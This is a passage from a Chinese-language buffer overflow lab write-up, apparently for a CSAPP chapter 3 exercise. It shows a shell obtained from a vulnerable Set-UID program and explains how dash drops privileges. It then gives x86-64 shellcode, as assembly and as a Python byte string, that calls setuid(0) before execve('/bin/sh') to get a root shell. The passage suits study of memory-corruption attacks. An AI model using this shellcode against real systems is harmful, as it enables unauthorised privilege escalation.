 ```python{.line-numbers}
file.close()
```

运行后的结果如下所示：

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ ./stack
0x7fffffffdd20 0x7fffffffdd90
$ id
uid=1000(monica) gid=1000(monica) groups=1000(monica),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare),1001(docker)
$
```

### 4.修改 shellcode

上述结果得到的只是一个普通的 shell，而不是 root shell，这是由 Ubuntu 的一个保护机制导致的。在 Ubuntu中，**`/bin/sh`** 实际上是一个指向 **`/bin/dash`** 的链接文件。dash 实现了一个保护机制，**<font color="red">当它发现自己在一个 Set-UID 进程中运行时，会立刻把有效用户 ID 变成实际用户 ID，主动放弃特权，即 dash 或者 bash 发现有效用户 ID 和实际用户 ID 不一致时，他们会立刻将有效用户 ID 修改成实际用户 ID</font>**。这种做法是很好的，因为在 Set-UID 进程中运行 shell 程序是相当危险的，这也是无法得到 root 权限的原因，Bash 也实现了同样的保护机制。

在缓冲区溢出攻击中，可以绕过 dash 和 bash 的保护机制，**我们可以在执行 dash 或者 bash 之前调用 setuid(0) 系统调用将真实用户 ID 修改为 0**。setuid 函数的功能之一就是若进程具有超级用户特权，则 setuid 函数将实际用户 ID、有效用户 ID，以及保存的设置用户 ID 设置为参数 uid。

因为会通过 **`sudo chown root stack`** 和 **`sudo chmod 4755 stack`** 两条指令将 stack 设置为 root 权限的 Set-UID 特权程序。因此我们可以在 shellcode 中添加调用 setuid 函数的代码，这样当 stack 程序跳转到 shellcode 恶意代码执行时，就会首先将 stack 程序的实际用户 ID 和有效用户 ID 都设置为 0，再使用 execve 函数执行 /bin/sh 命令时，就可以获取到 root shell。

shellcode 对应的汇编代码修改如下，其中 105 是系统调用 setuid 的调用号。

```armasm{.line-numbers}
xorq 	%rdi, %rdi
movb	$105, %al
syscall

xorq 	%rax,%rax
pushq 	%rax
movabsq $0x68732f2f6e69622f, %rbx
pushq   %rbx
movq	%rsp, %rdi
pushq	%rax
pushq	%rdi
movq	%rsp, %rsi
xorq 	%rdx, %rdx
movb	$59, %al
syscall
```

对应的 shellcode 修改如下：

```python{.line-numbers}
shellcode = (
        "\x48\x31\xff"
        "\xb0\x69"
        "\x0f\x05"
        "\x48\x31\xc0"
        "\x50"
        "\x48\xbb\x2f\x62\x69\x6e\x2f"
        "\x2f\x73\x68"
        "\x53"
        "\x48\x89\xe7"
        "\x50"
        "\x57"
        "\x48\x89\xe6"
        "\x48\x31\xd2"
        "\xb0\x3b"
        "\x0f\x05"
).encode('latin-1')
```
